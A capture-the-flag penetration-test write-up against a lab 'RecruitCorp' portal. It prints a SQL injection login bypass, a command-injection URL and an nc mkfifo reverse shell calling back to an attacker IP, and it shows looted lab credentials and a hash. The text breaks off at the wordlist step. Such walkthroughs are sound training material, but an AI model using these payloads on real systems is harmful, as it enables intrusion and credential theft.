# Operation Promotion — Penetration Test Write-up

## Task Scenario

> You are up for promotion at **Hadron Security**. Your senior lead, Mara, has handed you a solo engagement against **RecruitCorp**, a small recruiting firm with a public-facing portal. Compromise the host, capture the flags, and demonstrate that you are ready for the Penetration Tester title.

**Target:** `10.49.177.36` (RecruitCorp Careers Portal)
**Objective:** Obtain `user.txt` and `flag.txt`



---

## Summary

The RecruitCorp portal was compromised end-to-end through a chain of five linked weaknesses:

1. **SQL injection** in the admin login form (`admin' OR '1'='1`) bypassed authentication entirely.
2. An **IDOR / insecure direct object reference** in the post-login "User Lookup" feature leaked every user account (including a `system` service account, `sysmaint`) just by incrementing an `id` parameter.
3. The `sysmaint` account's notes pointed to a diagnostic endpoint, `ping.php`, which was vulnerable to **OS command injection**, giving a `www-data` reverse shell.
4. Looting the web root from that shell surfaced a **plaintext SQLite database** (full admin credentials) and a **config file** (`db.conf`) containing a bcrypt hash tied to the real system user `jford`.
5. A content clue on the homepage ("Spring 2026 Hiring Drive") was turned into a **custom mutated wordlist** (hashcat `dive.rule`) and used in a **Hydra SSH brute-force**, landing valid SSH credentials for `jford` and `user.txt`.
6. `sudo -l` revealed `jford` could run `/usr/bin/find` as root with `NOPASSWD`, which was abused via a classic **GTFOBins privilege escalation** to get a root shell and `flag.txt`.

**Flags captured:**
- `user.txt`
- `flag.txt` 

---

## Techniques Used

| # | Category | Technique |
|---|----------|-----------|
| 1 | Reconnaissance | Nmap service/version scan |
| 2 | Reconnaissance | Directory brute-forcing (Gobuster) |
| 3 | Reconnaissance | SMB share enumeration |
| 4 | Web Exploitation | SQL Injection — authentication bypass |
| 5 | Web Exploitation | IDOR — sequential ID enumeration |
| 6 | Web Exploitation | OS Command Injection |
| 7 | Exploitation | Reverse shell delivery & handling |
| 8 | Post-Exploitation | Source code / config file looting |
| 9 | Post-Exploitation | Plaintext credential database dump |
| 10 | Credential Access | OSINT-informed wordlist generation (hashcat rules) |
| 11 | Credential Access | SSH brute-force (Hydra) |
| 12 | Privilege Escalation | Sudo misconfiguration abuse (GTFOBins — `find`) |

---

## Commands / Codes Used

### 1. Reconnaissance — Nmap

```bash
nmap -sC -sV -p- -oN initial_scan.txt 10.49.177.36
```
**Purpose:** Full TCP port scan with default scripts (`-sC`) and version detection (`-sV`) to map the attack surface.

**Result:** SSH (22), HTTP/Apache (80, "RecruitCorp - Careers Portal"), and SMB (139/445) open. `/admin/` found disallowed in `robots.txt` — an immediate lead.



---

### 2. Reconnaissance — Directory Brute-Force

```bash
gobuster dir -u http://10.49.177.36 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html,txt,bak,js
```
**Purpose:** Discover hidden directories/files on the web server. Confirmed `/admin` (redirects to login) and `config` (403 — exists but blocked).



---

### 3. Reconnaissance — SMB Share Enumeration

```bash
enum4linux -a 10.49.177.36
```
**Purpose:** Enumerate SMB users, shares, and password policy. Confirmed an anonymously-accessible share named `public`.



```bash
smbclient //10.49.177.36/public -N
```
**Purpose:** Connect to the `public` SMB share with null (`-N`) authentication to check for exposed files.

```
smb: \> ls
smb: \> get README.txt
```
**Result:** Share only contained a placeholder `README.txt` ("Nothing to see here yet") — a dead end, but confirmed as part of recon coverage.



---

### 4. Web Exploitation — SQL Injection (Auth Bypass)

**Target:** `http://10.49.177.36/admin/` login form

**Payload (Username field):**
```sql
admin' OR '1'='1
```
**Purpose:** Classic boolean-based SQLi against an unsanitized login query, forcing the `WHERE` clause to always evaluate true and logging in as the first matching user (`admin`) without knowing the real password.



**Result:** Redirected straight into `/admin/dashboard.php` as `admin`.



**Root cause (confirmed later from source code):**
```php
$query = "SELECT id, username FROM users WHERE username='$u' AND password='$p'";
$res = $db->query($query);
```
Direct string concatenation of user input into the SQL query — no parameterized statements/prepared queries, no input sanitization.



---

### 5. Web Exploitation — IDOR (User Enumeration)

**Target:** `http://10.49.177.36/admin/users/lookup.php?id=N`

**Technique:** The dashboard's "User Lookup" feature takes a raw numeric `id` with no ownership/authorization check. Incrementing `id` sequentially (1, 2, 3 …) dumped every user record in the system, including roles and internal notes.

```
http://10.49.177.36/admin/users/lookup.php?id=1   → admin
http://10.49.177.36/admin/users/lookup.php?id=2   → mvasquez (recruiter)
http://10.49.177.36/admin/users/lookup.php?id=7   → sysmaint (system) — "Service account for /admin/sysmaint-checks/ping.php"
```





**Why it mattered:** `id=7`'s notes field directly disclosed the path to a diagnostic script (`/admin/sysmaint-checks/ping.php`) tied to a service account — the pivot point into command injection.

---

### 6. Web Exploitation — OS Command Injection

**Step 1 — Parameter discovery.** Visiting the endpoint with no parameters returned a usage hint:

```
http://10.49.177.36/admin/sysmaint-checks/ping.php
```
```
Usage: /admin/sysmaint-checks/ping.php?host=<target>
```



**Step 2 — Confirm injection.** Shell metacharacter chaining onto the `host` parameter:

```
http://10.49.177.36/admin/sysmaint-checks/ping.php?host=127.0.0.1; id
```
**Purpose:** The `;` chains a second OS command after the legitimate `ping` call. If the backend does something like `shell_exec("ping -c 1 " . $_GET['host'])` with no sanitization, both commands execute.

**Result:** Ping output followed by `uid=33(www-data) gid=33(www-data) groups=33(www-data)` — RCE confirmed as `www-data`.



---

### 7. Exploitation — Reverse Shell

**Step 1 — Generate payload** (revshells.com, `nc mkfifo` type, attacker IP = Kali's VPN/tun0 address, **not** the target's IP):

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 192.168.159.204 4444 >/tmp/f
```
> ⚠️ **Pitfall encountered:** the first payload attempt used the target's own IP instead of the attacker's `tun0` IP, so the shell had nothing to call back to. Always double-check the IP field matches `ip a` output for the interface that routes to the target (VPN/`tun0` in this case).



**Step 2 — Start the listener** (Penelope — auto-stabilizes the shell/PTY on connect):

```bash
wget -q https://raw.githubusercontent.com/brightio/penelope/refs/heads/main/penelope.py
python3 penelope.py -p 4444
```
**Purpose:** Penelope is a drop-in replacement for `nc -lvnp` that automatically detects the shell type, upgrades it to a full PTY, and logs the session — removing the need for manual `python3 -c 'import pty; pty.spawn(...)'` stabilization.



**Step 3 — Trigger the payload** by browsing to the URL-encoded version of the command via the `host` parameter:

```
http://10.49.177.36/admin/sysmaint-checks/ping.php?host=127.0.0.1;%20rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7Csh%20-i%202%3E%261%7Cnc%20192.168.159.204%204444%20%3E%2Ftmp%2Ff
```



**Result:** Penelope caught an interactive shell as `www-data` on host `recruitcorp`.

```bash
whoami        # www-data
ls -la        # web root structure confirmed
```



---

### 8. Post-Exploitation — Config File & Source Code Looting

```bash
cat /var/www/html/config/db.conf
```
**Purpose:** Enumerate files left in the web root outside of public reach but still readable by `www-data`. This exposed the application's DB connection details, including a **bcrypt password hash** tied to system user `jford`:

```
db_user=jford
db_pass_hash=$2b$10$QzkXmGndA2cQLozO3xAN6eWKrl6ZXyzhYTJNF67exOmTmN5oVSEfq
db_engine=sqlite3
```



```bash
cat /var/www/html/admin/index.php      # read via the shell (shown here via vim for clarity)
sqlite3 /var/lib/recruitcorp/app.db
sqlite> .tables
sqlite> select * from users;
```
**Purpose:** Read the application's own source and query its SQLite database directly to see every stored credential and confirm the SQL injection root cause. This dumped all web-portal account passwords in **plaintext** (e.g. `admin:A!7s2f9DkLp_Q3e`, `mvasquez:pw_mv_4831`, etc.) — useful for full app coverage, though it did not include `jford` (a system, not web-app, account).



---

### 9. Credential Access — OSINT-Informed Wordlist + Dictionary Attack

The Careers Portal homepage advertised a themed banner:

> **"Spring 2026 Hiring Drive"** — *"Our spring intake is now open…"*



This was used as a seed word for a mutated wordlist, instead of continuing to brute-force the bcrypt hash against the full `rockyou.txt` (bcrypt's intentional slowness made that impractical within a reasonable time).

```bash
echo "spring2026" > base.txt
hashcat --stdout base.txt -r /usr/share/hashcat/rules/dive.rule > wordlist.txt
wc -l wordlist.txt   # ~98,670 candidate passwords generated
```
**Purpose:** `hashcat --stdout` with the `dive.rule` ruleset applies thousands of common mutation patterns (case changes, leet-speak substitutions, suffixes, etc.) to the seed word `spring2026`, producing a small, highly targeted wordlist instead of a slow brute-force of millions of unrelated words.

